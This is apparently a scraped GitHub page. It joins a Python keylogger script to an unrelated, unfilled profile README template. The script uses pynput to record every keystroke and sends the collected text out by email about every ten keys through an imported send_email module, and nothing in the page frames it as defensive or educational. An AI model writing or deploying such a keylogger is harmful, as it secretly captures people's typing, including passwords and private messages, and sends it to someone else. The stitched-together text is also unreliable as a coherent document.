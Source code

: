 import pynput
from pynput.keyboard import Key, Listener
import send_email

count = 0
keys = []

def on_press(key):
    print(key, end= " ")
    print("pressed")
    global keys, count
    keys.append(str(key))
    count += 1
    if count > 10:
        count = 0
        email(keys)

def email(keys):
    message = ""
    for key in keys:
        k = key.replace("'","")
        if key == "Key.space":
            k = " " 
        elif key.find("Key")>0:
            k = ""
        message += k
    print(message)
    send_email.sendEmail(message)

def on_release(key):
    if key == Key.esc:
        return False


with Listener(on_press = on_press, on_release = on_release) as listener:
    listener.join()- 👋 Hi, I’m @ranzjayz12
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
ranzjayz12/ranzjayz12 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
